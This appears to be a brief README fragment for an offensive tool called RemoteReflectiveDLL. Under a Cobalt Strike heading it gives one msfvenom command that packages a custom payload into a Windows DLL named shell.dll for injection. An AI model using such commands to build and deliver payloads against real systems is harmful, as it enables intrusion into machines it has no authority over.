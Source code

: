 # RemoteReflectiveDLL


## Cobalt Strike

msfvenom -p generic/custom PAYLOADFILE=./payload.bin -a x86 --platform windows -f dll -o shell.dll
